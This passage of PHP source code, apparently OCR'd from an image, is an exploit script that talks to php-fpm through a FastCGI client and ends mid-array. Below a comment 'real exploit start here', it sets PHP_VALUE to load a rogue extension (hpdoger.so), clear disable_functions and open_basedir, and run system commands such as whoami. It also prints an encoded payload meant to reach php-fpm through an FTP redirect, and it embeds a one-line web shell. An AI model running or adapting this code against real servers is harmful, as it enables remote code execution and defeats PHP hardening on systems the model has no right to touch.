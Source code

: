 ```php
            $request .= $this->buildPacket(self::STDIN, $stdin);
        }
        $request .= $this->buildPacket(self::STDIN, '');
        echo('?file=ftp://ip:9999/&data='.urlencode($request));
//        fwrite($this->_sock, $request);
//        do {
//            $resp = $this->readPacket();
//            if ($resp['type'] == self::STDOUT || $resp['type'] == self::STDERR) {
//                $response .= $resp['content'];
//            }
//        } while ($resp && $resp['type'] != self::END_REQUEST);
//        var_dump($resp);
//        if (!is_array($resp)) {
//            throw new Exception('Bad request');
//        }
//        switch (ord($resp['content']{4})) {
//            case self::CANT_MPX_CONN:
//                throw new Exception('This app can\'t multiplex [CANT_MPX_CONN]');
//                break;
//            case self::OVERLOADED:
//                throw new Exception('New request rejected; too busy [OVERLOADED]');
//                break;
//            case self::UNKNOWN_ROLE:
//                throw new Exception('Role value not known [UNKNOWN_ROLE]');
//                break;
//            case self::REQUEST_COMPLETE:
//                return $response;
//        }
    }
}
?>
<?php
// real exploit start here
//if (!isset($_REQUEST['cmd'])) {
//    die("Check your input\n");
//}
//if (!isset($_REQUEST['filepath'])) {
//    $filepath = __FILE__;
//}else{
//    $filepath = $_REQUEST['filepath'];
//}

$filepath = "/var/www/html/add_api.php";
$req = '/'.basename($filepath);
$uri = $req .'?'.'command=whoami';
$client = new FCGIClient("unix:///var/run/php-fpm.sock", -1);
$code = "<?php system(\$_REQUEST['command']); phpinfo(); ?>"; // php payload -- Doesnt do anything
$php_value = "unserialize_callback_func = system\nextension_dir = /var/www/html\nextension = hpdoger.so\ndisable_classes = \ndisable_functions = \nallow_url_include = On\nopen_basedir = /\nauto_prepend_file = "; // extension_dir即为.so文件所在目录
$params = array(
    'GATEWAY_INTERFACE' => 'FastCGI/1.0',
    'REQUEST_METHOD'    => 'POST',
    'SCRIPT_FILENAME'   => $filepath,
    'SCRIPT_NAME'       => $req,
    'QUERY_STRING'      => 'command=whoami',
    'REQUEST_URI'       => $uri,
    'DOCUMENT_URI'      => $req,
#'DOCUMENT_ROOT'     => '/',
    'PHP_VALUE'         => $php_value,
    'SERVER_SOFTWARE'   => '80sec/wofeiwo',
    'REMOTE_ADDR'       => '127.0.0.1',
    'REMOTE_PORT'       => '9001', // 找准服务端口
```